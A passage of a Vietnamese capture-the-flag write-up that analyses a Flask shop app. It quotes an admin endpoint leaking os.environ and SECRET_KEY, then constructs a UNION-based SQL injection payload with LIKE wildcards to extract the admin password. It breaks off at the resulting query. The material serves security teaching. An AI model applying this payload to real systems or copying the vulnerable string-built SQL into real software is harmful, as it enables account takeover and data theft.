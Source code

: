 ```python
        return render_template("admin/admin_search_order.html",message="Category must be username or product", user=current_user)
    orders = get_order_base_on(search_text, category)
    return render_template("admin/admin_search_order.html", orders=orders, user=current_user, category = category, search_text = search_text)
```

--->Nhận xét: Ở đây hàm ```get_order_base_on()``` thực hiện query chứa mệnh đề LIKE - Tức là ta có thể sử dụng **Wildcard charector** trong input (tức là ```search_text()```) **(4)**


-```/admin/tester``` có 2 method ta chú ý,    
+ Khi ta gửi request ```GET /admin/tester?action=env``` nó sẽ trả về ```os.environ``` mà ở trên ta phân tích thì os.environ chứa ```SECRET_KEY```      
+ Khi ta gửi     
```bash
POST /admin/tester?action=add_money
Content-Type: application/x-www-form-urlencoded
username={username}&amount=100
```

tương đương với việc cộng tiền vào tài khoản {username}.     (5)

```python
@app.route("/admin/tester", methods=["GET", "POST"])
@is_admin
def admin_logs():
    action = request.args.get("action")
    if action == "healthcheck":
        return "OK", 200
    elif action == "env":
        return str(os.environ), 200
    elif action == "add_money":
        username = request.form.get("username")
        amount = int(request.form.get("amount"))
        try: 
            if is_user_exist(username) and amount>0: 
                add_money(username, amount)
                return "Add money successfull", 200
            else:
                return "User not exist or amount <= 0", 400
        except Exception:
            return "Error ocococ", 404
    else:
        return "What should tenshi do now", 400
```

-Từ các manh mối ở trên, có thể đoán rằng flag đang nằm ở đâu đó trong database

## Thực hiện: 
-Ở **(2)**, ta đã xác nhận được rằng sẽ có SQLi ở ```/buy_product``` trong biến username, query ban đầu:    
```INSERT INTO orders (username, product_id, quantity) VALUES ((SELECT username FROM users WHERE username='{username}'), ?, ?)```

-Nếu ta đặt username kiểu dạng như: ```' UNION SELECT 'prochicken' FROM users WHERE username = 'admin' AND password LIKE '%``` thì câu query sẽ thành:

```sql
INSERT INTO orders (username, product_id, quantity) 
VALUES
((SELECT username FROM users WHERE username=''
UNION
SELECT 'prochicken' FROM users WHERE username = 'admin' AND password LIKE '%'), ?, ?)
```
